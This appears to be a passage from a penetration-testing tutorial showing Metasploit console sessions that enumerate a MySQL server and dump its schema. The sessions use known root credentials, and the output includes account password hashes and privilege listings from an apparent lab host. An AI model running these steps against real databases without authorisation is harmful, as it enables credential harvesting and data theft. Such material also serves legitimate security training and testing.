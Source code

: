## Database Enumeration with Credentials

### MySQL Enumeration Module

```bash
msf6 > use auxiliary/admin/mysql/mysql_enum
msf6 auxiliary(admin/mysql/mysql_enum) > show options

Module options (auxiliary/admin/mysql/mysql_enum):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       The password for the specified username
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     3306             yes       The target port (TCP)
   USERNAME                   yes       The username to authenticate as

msf6 auxiliary(admin/mysql/mysql_enum) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_enum) > set PASSWORD twinkle
msf6 auxiliary(admin/mysql/mysql_enum) > run

[*] Running MySQL Enumerator...
[*] Version: 5.5.61-0ubuntu0.14.04.1
[*] Compiled for the following machine: debian-linux-gnu
[*] Architecture: x86_64
[*] Server Hostname: victim1
[*] Data Directory: /var/lib/mysql/
[*] Writing to my.cnf: /etc/mysql/my.cnf
[*] Account Information:
[*]  root - *9B9A6D3C7A25A38F5081F643F8DF16D6E20E1B5B (localhost)
[*]  root - *9B9A6D3C7A25A38F5081F643F8DF16D6E20E1B5B (victim1)
[*]  sysadmin - *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9 (localhost)
[*] Privilege Information:
[*]  root has GRANT Privilege
[*]  root has RELOAD Privilege
[*]  root has SHUTDOWN Privilege
```

### MySQL Schema Dump

```bash
msf6 > use auxiliary/admin/mysql/mysql_schemadump
msf6 auxiliary(admin/mysql/mysql_schemadump) > show options

Module options (auxiliary/admin/mysql/mysql_schemadump):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   DISPLAY_RESULT  true             yes       Display the query results
   PASSWORD                         yes       The password for the specified username
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT           3306             yes       The target port (TCP)
   USERNAME                         yes       The username to authenticate as

msf6 auxiliary(admin/mysql/mysql_schemadump) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_schemadump) > set PASSWORD twinkle
msf6 auxiliary(admin/mysql/mysql_schemadump) > run

[*] Schema stored in: /root/.msf4/loot/20231201120000_default_192.168.1.100_mysql_schema_123456.txt
```
